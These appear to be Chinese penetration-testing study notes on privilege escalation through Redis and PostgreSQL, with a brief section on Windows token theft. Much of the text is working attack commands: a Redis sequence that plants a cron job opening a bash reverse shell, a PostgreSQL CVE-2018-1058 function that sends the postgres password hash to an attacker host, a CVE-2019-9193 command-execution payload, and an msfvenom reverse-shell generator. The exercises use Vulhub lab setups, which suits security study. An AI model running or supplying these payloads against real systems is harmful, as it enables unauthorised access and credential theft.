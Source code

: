 <a name="fHSXe"></a>
# 一、思维导图
![](https://cdn.nlark.com/yuque/0/2022/webp/2476579/1648298894641-f4aa503b-ef98-4b39-b824-dd5887001711.webp#clientId=u703068a6-6f6c-4&from=paste&id=u1047c4d3&originHeight=1335&originWidth=942&originalType=url&ratio=1&rotation=0&showTitle=false&status=done&style=none&taskId=u182e7070-4451-4dbf-8b93-b7b3cc867d1&title=)
```vue
在利用系统溢出漏洞无果的情况下，可以采用数据库进行提权，但需要知道数据库提权的前提条件：
服务器开启数据库服务及获取到最高权限用户密码。除 Access 数据库外，其他数据库基本都存在数
据库提权的可能。
#数据库应用提权在权限提升中的意义
#WEB 或本地环境如何探针数据库应用
#数据库提权权限用户密码收集等方法
#目前数据库提权对应的技术及方法等
```
<a name="kKndM"></a>
# 二、Redis数据库权限提升

Redis服务因配置不当，可被攻击者恶意利用。黑客借助Redis内置命令，可将现有数据恶意清空；如果Redis以root身份运行，黑客可往服务器上写入SSH公钥文件，直接登录服务器。

<a name="hSxf9"></a>
## 2-1提权方法：

连接(未授权漏洞或密码)-利用如下方法提权

参考：[https://blog.csdn.net/fly_hps/article/details/80937837](https://blog.csdn.net/fly_hps/article/details/80937837)

(1).利用计划任务执行命令反弹shell

(2).写ssh-keygen公钥然后使用私钥登陆

(3).权限较低往web物理路径写webshell

<a name="lcpT4"></a>
## 2-2修复方案：

注意：以下操作，均需重启Redis后才能生效。

绑定需要访问数据库的IP。将127.0.0.1修改为需要访问此数据库的IP地址。

设置访问密码。在Redis.conf中requirepass字段后，设置添加访问密码。

修改Redis服务运行账号。以较低权限账号运行Redis服务，禁用账号的登录权限。 

<a name="k5Utw"></a>
## 2-3Redis连接-利用计划任务执行命令反弹shell

连接redis：

    redis-cli -h IP地址（如果是本地数据库填127.0.0.1）

执行提权命令：

    set x "\n* * * * * bash -i >& /dev/tcp/监听IP地址/端口号 0>&1\n"

    config set dir /var/spool/cron/

    config set dbfilename root

    save 
<a name="pFLcU"></a>
# 三、postgresql提权
<a name="YLexE"></a>
## 3-1、CVE-2018-1058/
[https://vulhub.org/#/environments/postgres/CVE-2018-1058/](https://vulhub.org/#/environments/postgres/CVE-2018-1058/)
```shell
root@ubuntu:# cd /opt/vulhub/vulhub-master/postgres/CVE-2018-1058
root@ubuntu:/opt/vulhub/vulhub-master/postgres/CVE-2018-1058# docker-compose up -d
root@ubuntu:/opt/vulhub/vulhub-master/postgres/CVE-2018-1058# docker exec -it cve-2018-1058_postgres_1 /bin/bash
bash-4.3# psql --host 127.0.0.1 --username vulhub
vulhub=> CREATE FUNCTION public.array_to_string(anyarray,text) RETURNS TEXT AS $$
vulhub$>     select dblink_connect((select 'hostaddr=10.1.1.3 port=5433 user=postgres password=chybeta sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres')));
vulhub$>     SELECT pg_catalog.array_to_string($1,$2);
vulhub$> $$ LANGUAGE SQL VOLATILE;
root@ubuntu:/opt/vulhub/vulhub-master/postgres/CVE-2018-1058# docker-compose exec postgres pg_dump -U postgres -f evil.bak vulhub
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/2476579/1648519931596-681f19a5-dd05-4974-bfc1-cc0fc21afd72.png#clientId=u4ead3a93-fcf7-4&from=paste&height=153&id=u37986e27&originHeight=191&originWidth=663&originalType=binary&ratio=1&rotation=0&showTitle=false&size=18968&status=done&style=none&taskId=u9d4616c3-094a-42f8-83e4-9aaddb4eee5&title=&width=530.4)
<a name="qwfHR"></a>
## 3-2、CVE-2019-9193
[https://vulhub.org/#/environments/postgres/CVE-2019-9193/](https://vulhub.org/#/environments/postgres/CVE-2019-9193/)<br />payload
```vue
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/2476579/1648521282290-cedf64a3-1742-4252-807a-16c21842c89b.png#clientId=u4ead3a93-fcf7-4&from=paste&height=306&id=u3b3ca9d2&originHeight=383&originWidth=1160&originalType=binary&ratio=1&rotation=0&showTitle=false&size=37523&status=done&style=none&taskId=uff07fb49-1bcc-4178-b7b6-5da609376ad&title=&width=928)
<a name="Zf2Pn"></a>
# 四、win7/ser08令牌窃取
msf生成反弹shell<br />` msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.1.1.3 LPORT=5555 -f exe > shell.exe ``其中lhost和lport可以理解为**攻击机**的ip地址和端口号`









